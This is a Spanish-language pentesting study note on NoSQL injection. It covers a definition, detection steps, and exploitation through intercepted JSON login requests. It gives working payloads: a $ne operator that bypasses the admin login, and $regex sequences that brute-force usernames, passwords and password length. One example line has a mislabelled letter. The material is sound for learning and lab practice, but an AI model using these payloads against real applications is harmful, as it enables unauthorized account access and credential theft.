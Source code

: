 # NoSQLi

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #NoSQLI

***

## Definición

> Las **inyecciones NoSQL** son ataques informáticos que se centran en bases de datos **NoSQL**, como **MongoDB** o **Cassandra**, aprovechando debilidades para acceder o modificar datos de manera no autorizada. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación.
>
> Es un ataque muy parecido a la \[\[SQL Injection]], solo que las bases de datos ahora son **NoSQL**. Estas inyecciones se aprovechan de consultas hacia la base de datos que se basan en documentos, en lugar de tablas relacionales como **SQL**, para enviar datos maliciosos que puedan manipular la consulta de la base de datos.
>
> Las inyecciones **NoSQL** explotan la falta de validación de los datos en una consulta a la base de datos.

***

## Detección de vulnerabilidad

Podríamos tratar de realizar el siguiente proceso:

* **Búsqueda de entradas de datos:** Tratamos de identificar las áreas en la página donde los usuarios podamos introducir datos, como formularios, campos de búsqueda o incluso una URL con parámetros.
* **Manipulación de los datos:** Podemos intentar ingresar datos inyectados que podrían explotar una vulnerabilidad NoSQLi. Si la aplicación responde con mensajes de error no esperados o raros, podría ser un indicio de una posible vulnerabilidad. Para ver estos tipos de datos que podrían explotar la vulnerabilidad, podemos visitar la siguiente página: [NoSQLi cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* **Errores de sintaxis o tiempos de respuesta alterados:** Si la aplicación devuelve errores de sintaxis específicos relacionados con la base de datos o si hemos realizado una consulta maliciosa y está ralentizando el tiempo de respuesta de la página web, podría ser también vulnerable.

***

## Explotación

En este tipo de ataques trataremos de realizar operaciones como **not equal** o **greater**. Por ejemplo podemos jugar con que el usuario sea admin pero la contraseña no sea igual a admin o cualquier otra cadena. Al realizarse dicha comprobación, se verifica que la contraseña no es igual a lo que se le ha proporcionado, de manera que podríamos tener acceso.

Para poder proceder con el ataque necesitamos interceptar la petición, por lo que haremos uso de la herramienta \[\[Burpsuite]], y podremos ir modificando los datos a nuestro placer:

```bash
{"username":"admin","password":"test"}         #Petición original en formato json
{"username":"admin", "password": {"$ne":"test"}}    #Petición modificada
```

Esta manera nos garantizaría el ingreso como el usuario admin.

A veces nos interesaría no solo ganar acceso al sistema, sino conseguir los posibles **usuarios** y **contraseñas** existentes en la base de datos, de manera que podemos trabajar con la función **regex** y trabajar con expresiones regulares para intentar realizar un poco de fuerza bruta de la siguiente manera:

```bash
{"username":"admin","password":"test"}                         #Petición original en formato json

{"username":{"$regex":"^a"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "a"
{"username":{"$regex":"^b"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "b"
{"username":{"$regex":"^a"}, "password": {"$ne":"test"}}       #Conseguimos acceso, hay al menos un usuario que empieza por "c"

{"username":{"$regex":"^ca"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "ca"
{"username":{"$regex":"^cb"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "cb"
...
```

De esta manera podríamos conseguir los usuarios existentes en la base de datos.

Igualmente se podría realizar para conseguir las contraseñas:

```bash
{"username":"admin","password":"test"}                         #Petición original en formato json

{"username":"admin", "password": {"$regex":"^a"}}       #No conseguimos acceso, la contraseña no empieza por "a"
{"username":"admin", "password": {"$regex":"^b"}}       #No conseguimos acceso, la contraseña no empieza por "b"
{"username":"admin", "password": {"$regex":"^c"}}       #Conseguimos acceso, la contraseña empieza por "c"

{"username":"admin", "password": {"$regex":"^ca"}}       #No conseguimos acceso, la contraseña no empieza por "ca"
{"username":"admin", "password": {"$regex":"^cb"}}       #No conseguimos acceso, la contraseña no empieza por "cb"
...
```

También podemos utilizar la función para conseguir el tamaño de una entidad, por ejemplo, para el tamaño de la contraseña:

```bash
{"username":"admin", "password": {"$regex":".{30}"}}    #No consguimos acceso, la contraseña tiene menos de 30 caracteres
{"username":"admin", "password": {"$regex":".{25}"}}    #Consguimos acceso, la contraseña tiene al menos de 25 caracteres
{"username":"admin", "password": {"$regex":".{29}"}}    #Consguimos acceso, la contraseña tiene 29 caracteres
```

Todo este proceso puede ser un poco tedioso, de manera que podemos automatizarlo en un script, como \[\[nosqli.py]].

Puede ser que se esté realizando una solicitud **GET** para pedir al servicio algún tipo de información, de manera que podemos interceptar la petición y tratar de convertirla a **POST** y puede ser que se muestre algo más de información. Además podemos intentar cambiar la cabecera _Content-Type_ a _json_, y vemos a ver si interpreta la data que le proporcionemos en dicho formato, y si fuera el caso, podríamos proceder al igual que hacemos en el proceso anterior de **fuerza bruta**.

Puede darse el caso que nos estemos enfrentando a una base de datos en **MongoDB**, de manera que podemos probar distintos payloads para intentar conseguir leakear información de la base de datos. Una página donde podemos ver distintos payloads para este servicio es [NoSQLi cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) o [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection).

***

## Ejemplos prácticos

* [Vulnerable-Node-App](https://github.com/Charlie-belmer/vulnerable-node-app)
* [NoSQLi Lab](https://github.com/digininja/nosqlilab)
